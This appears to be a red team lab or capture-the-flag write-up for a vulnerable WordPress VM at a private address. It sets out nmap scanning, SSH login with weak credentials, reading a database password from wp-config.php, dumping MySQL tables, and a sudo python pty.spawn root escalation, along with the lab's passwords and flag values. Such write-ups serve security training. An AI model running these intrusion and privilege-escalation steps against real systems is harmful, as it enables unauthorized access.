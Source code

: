 # **Red Team: Summary of Operations**

## TARGET 1

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.110

![1](/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive Information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have significant affects on your business
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. | A user is able to execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows a LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

## Exploitation

The Red Team was able to penetrate Target1 and retrieve the following confidential data:

**flag1:**  `flag1{b9bbcb33e11b80be759c4e844862482d}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    1. On google chrome input the `Url: 192.168.1.110/service.html`
    2. Right click / view page source code / click on 3 dot menu
    3. Search: flag1

     **Flag1**

    ![2](/Images/1/2.png)

---

**flag2:** `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        cd ../../
        find -iname “*flag*” 2>/dev/null
        cat /var/www/flag2.txt
    ```

    **Flag2**

    ![3](/Images/1/3.png)

---

**flag3:**  `flag3{afc01ab56b50591e7dccf93122770cd2}`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The root password to access the SQL database is reachable in plain text on the file wp-config.php
    
    Exploit:
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Images/1/4.png)

    ```
    mysql -u root -p
    mysql> show databases;
    mysql> use wordpress;
    mysql> show tables;
    mysql> select * from wp_posts;
    ```

    **Flag3**

    ![11](/Images/1/11.png)  

    >#### note: Flags 3 and 4 can be found in different ways. Look at the end of this report for alternative methods to find Flag3.

---

**flag4:**  `flag4{715dea6c055b9fe3337544932f2941ce}`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows to execute a Python Script that leads to a root access to the system.
  
    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:
    
    1. Steven has the privilege to run python language as a root user
        ```   
            su steven
            Password: pink84
            sudo -l  
        ```
    
        ![8](/Images/1/8.png)

    2. Python Script
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
 
        ![9](/Images/1/9.png)
    
        cat /root/flag4.txt
    
        **Flag4**

        ![10](/Images/1/10.png)

***

# Alternative methods to access flag 3 and 4

## Binary File: **Flag 3**

1. Needs to be Root
2. In the directory:  /var/lib/mysql 

    ```
    grep -r flag3 *
    nano lib_logfile0
    ctrl w flag3
    ```

**Flag3**

![12](/Images/1/12.png)

## SQL database: **Flag 3 and 4**

```
mysql -u root -p
mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select * from wp_posts;
```

  **Flag3 and Flag4**
 
![11](/Images/1/11.png)



> Others Exploits:
CVE-2014-6271 Shellshock vulnerability. It is possible to gain shell access through Remote code execution.
